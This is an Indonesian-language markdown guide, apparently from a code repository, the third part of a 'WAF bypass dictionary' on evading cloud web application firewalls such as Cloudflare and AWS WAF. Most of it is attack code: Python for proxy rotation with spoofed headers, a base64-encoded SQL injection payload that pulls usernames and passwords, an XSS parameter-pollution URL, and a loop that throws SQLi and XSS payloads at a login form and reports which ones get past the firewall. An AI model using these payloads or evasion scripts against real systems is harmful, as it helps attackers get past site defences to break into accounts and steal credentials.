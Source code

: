 # Kamus Besar Bypass WAF - Part 3

## Advanced Cloud-Based WAF Evasion & Adaptive Attack Techniques

Pada bagian ini, kita akan membahas teknik bypass WAF berbasis cloud seperti **Cloudflare, AWS WAF, Akamai, Imperva**, serta penggunaan payload adaptif untuk menghindari deteksi.

---

## 🛡️ 1. Cloud-Based WAF Evasion

### 🔹 1.1. Proxy Rotation & Traffic Mimicking
Menggunakan **rotasi proxy** dan **spoofing header** untuk menyamarkan lalu lintas sebagai pengguna yang sah.

**Contoh Implementasi Proxy Rotation (Python):**
```python
import requests
from random import choice

proxies = ["http://proxy1.com", "http://proxy2.com", "http://proxy3.com"]
headers = {"User-Agent": choice(["Mozilla/5.0", "Safari/537.36"])}

response = requests.get("http://target.com", proxies={"http": choice(proxies)}, headers=headers)
print(response.text)
```

---

### 🔹 1.2. Encrypted Payload Injection
Menggunakan payload **terenkripsi** untuk menghindari deteksi berbasis pola.

**Contoh Payload SQLi dengan Base64 Encoding:**
```python
import base64

payload = "UNION SELECT username, password FROM users"
encoded_payload = base64.b64encode(payload.encode()).decode()

print(f"Encoded SQLi: {encoded_payload}")
```

---

### 🔹 1.3. HTTP Parameter Pollution
Mengirimkan **parameter duplikat** dalam request untuk membingungkan parser WAF.

**Contoh:**
```
https://target.com/search?query=test&query=<script>alert(1)</script>
```

---

## 🎭 Adaptive Attack Chains
Teknik **Adaptive Attack Chains** memungkinkan payload berubah sesuai respons dari WAF.

**Contoh Adaptive Payload Injection (Python):**
```python
import requests

payloads = ["' OR '1'='1", "' UNION SELECT NULL, NULL--", "<script>alert(1)</script>"]
target_url = "https://target.com/login"

for payload in payloads:
    response = requests.post(target_url, data={"username": "admin", "password": payload})
    
    if "blocked" in response.text:
        print(f"Payload {payload} ditolak, mencoba varian lain...")
    else:
        print(f"Payload {payload} berhasil lolos!")
```

---

## 📌 Kesimpulan
Di **Part 3** ini, kita telah membahas beberapa teknik **Cloud-Based WAF Evasion**, termasuk **Proxy Rotation, Encrypted Payload Injection, dan Adaptive Attack Chains**.

**Next:** 📖 *"Bypassing AI-Enhanced WAF & Next-Gen Attack Vectors"* 🚀

